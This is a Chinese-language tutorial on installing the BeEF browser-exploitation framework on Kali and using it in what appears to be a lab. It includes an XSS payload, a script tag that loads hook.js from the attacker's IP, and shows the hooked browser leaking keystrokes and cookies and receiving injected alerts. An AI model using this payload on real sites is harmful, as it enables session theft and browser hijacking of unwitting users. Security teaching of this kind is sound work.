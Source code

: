 # beef-xss安装

对于新的kali 2020版的kali系统，使用 apt install beef-xss即可安装。

打开终端，输入如下命令：

```bash
apt-get update  //取更新的软件包的索引源，作用是同步源的软件包 的索引系信息，从而进行软件更新，若不执行可能安装失败

apt-get install beef-xss
```

则beef就会被安装到`/usr/share/beef-xss`目录之下

# beef-xss使用

kali可能通过直接执行命令的方式启动或关闭beef服务器，也可以通过服务的方式进行管理，在初次使用时建议使用命令方式启动，以便观察它的启动过程。

```bash
beef-xss# 命令方式启动
beef-xss-stop           # 命令方式关闭 
systemctl start beef-xss.service    #开启
beefsystemctl stop beef-xss.service     #关闭
beefsystemctl restart beef-xss.service  #重启beef
```

### beef启动

直接在终端输入`beef-xss`启动，beef的默认用户名和密码为beef和beef，首次启动强制修改默认密码，自行填写(笔者设置的是root)，按提示输入修改的密码即可，稍等一下，beef服务器则启动成功

![](https://img.yatjay.top/md/202203251558279.png)

### beef的图形化管理后台

使用浏览器打开`http://127.0.0.1:3000/ui/panel`它的管理界面，输入默认的账号beef和您修改的密码，即可进入它的管理系统。启动后在浏览器图形界面使用上述设置的用户名`beef` 密码`root`登录

![](https://img.yatjay.top/md/202203251558415.png)

也可以在外网通过公网IP访问beef的图形化面板，比如在本地物理机上尝试访问

`192.168.137.132:3000/ui/panel`

![](https://img.yatjay.top/md/202203251558961.png)



输入用户名密码也可成功登陆管理界面

![](https://img.yatjay.top/md/202203251558340.png)



### 构造payload

参考终端中给出的示例构造payload

参考示例

```js
<script src="http://IP:3000/hook.js"></script>
```

查看Kali的IP地址192.168.137.132后构造payload

```js
<script src="http://192.168.137.132:3000/hook.js"></script>
```

### 注入payload

将构造好的payload插入XSS注入点并提交

![](https://img.yatjay.top/md/202203251558557.png)

### 触发XSS

后台用户触发XSS脚本

![](https://img.yatjay.top/md/202203251558049.png)

当受害者打开浏览器客户端时，我们在beEf的管理后台就可以看到IP为`192.168.137.1`的主机上线

![](https://img.yatjay.top/md/202203251559061.png)

### BeEF管理界面操作

Detailes模块是浏览器、插件版本信息，操作系统信息：

![](https://img.yatjay.top/md/202203251559126.png)

Logs模块可以查看鼠标点击，键盘输入的一些操作：

![](https://img.yatjay.top/md/202203251559127.png)

commands模块可以对目标系统进行入侵：

![](https://img.yatjay.top/md/202203251559117.png)

比如Get Cookie可以获取Cookie值

![](https://img.yatjay.top/md/202203251559060.png)

比如create Alert Dialog可以在目标系统上弹窗：

beef设置弹窗内容

![](https://img.yatjay.top/md/202203251559893.png)

执行后目标系统就能看到弹窗了

![](https://img.yatjay.top/md/202203251559682.png)

